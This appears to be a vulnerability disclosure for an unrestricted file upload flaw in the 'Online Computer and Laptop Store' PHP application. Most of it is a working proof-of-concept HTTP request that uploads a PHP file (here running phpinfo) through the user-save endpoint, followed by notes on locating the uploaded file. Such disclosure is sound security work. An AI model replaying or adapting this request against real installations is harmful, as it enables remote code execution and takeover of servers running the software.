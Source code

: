 File upload vulnerability exists in Online Computer and Laptop Store

version:v2021

download:https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

code analysis

There are no restrictions on uploading files, so any file can be uploaded
![image](https://github.com/since2019-costin/cve/assets/169053485/4d5fb463-b6be-41c3-b87a-bf999605562c)

POC
```
POST /php-ocls/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------2482234165710351672344762468
Content-Length: 827
Origin: http://localhost
Connection: close
Referer: http://localhost/php-ocls/admin/?page=user
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

-----------------------------2482234165710351672344762468
Content-Disposition: form-data; name="id"

1
-----------------------------2482234165710351672344762468
Content-Disposition: form-data; name="firstname"

Adminstrator
-----------------------------2482234165710351672344762468
Content-Disposition: form-data; name="lastname"

Admin
-----------------------------2482234165710351672344762468
Content-Disposition: form-data; name="username"

admin
-----------------------------2482234165710351672344762468
Content-Disposition: form-data; name="password"


-----------------------------2482234165710351672344762468
Content-Disposition: form-data; name="img"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------2482234165710351672344762468--
```
![image](https://github.com/since2019-costin/cve/assets/169053485/7d350395-aa54-43f1-86d4-d11af541c732)

![image](https://github.com/since2019-costin/cve/assets/169053485/fff3057e-ee47-4ae3-831f-c36ae4737b51)
Get access path here
![image](https://github.com/since2019-costin/cve/assets/169053485/01bfe2ff-87ea-43b7-8775-41a2ddb824f2)
![image](https://github.com/since2019-costin/cve/assets/169053485/c58d9b5c-ec5a-471a-82f5-66f109139f44)

